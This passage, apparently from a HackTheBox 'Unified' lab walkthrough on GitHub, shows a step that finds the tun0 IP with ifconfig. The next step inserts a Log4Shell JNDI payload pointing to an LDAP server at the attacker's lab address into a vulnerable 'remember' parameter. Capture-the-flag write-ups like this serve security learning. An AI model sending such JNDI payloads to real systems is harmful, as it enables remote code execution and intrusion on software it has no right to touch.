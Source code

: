   ### ![image_alt](https://github.com/bikasha49/HackTheBox-Unified-Tier-II-Challenge/blob/e22eb7b4b50e07b05d1ab07d99078ed088151630/9%20ifconfig%20to%20see%20tun0%20host%20ip.png)
  - Tun0 host IP
  ```bash
  ifconfig
  ```
  ## Step 10
  ### ![image_alt](https://github.com/bikasha49/HackTheBox-Unified-Tier-II-Challenge/blob/1709021dbb59ca2e4df1f5dee83879fd81083883/10%20change%20the%20payload%20with%20host%20tun0%20host%20ip%20to%20see%20from%20wireshark%20.png)
  - Changing the malicious payload with the Tun0 host IP in the remember section vulnerable parameter. 
  ```bash
  "${jndi:ldap://10.10.16.87/whatever}",
  ```
  ## Step 11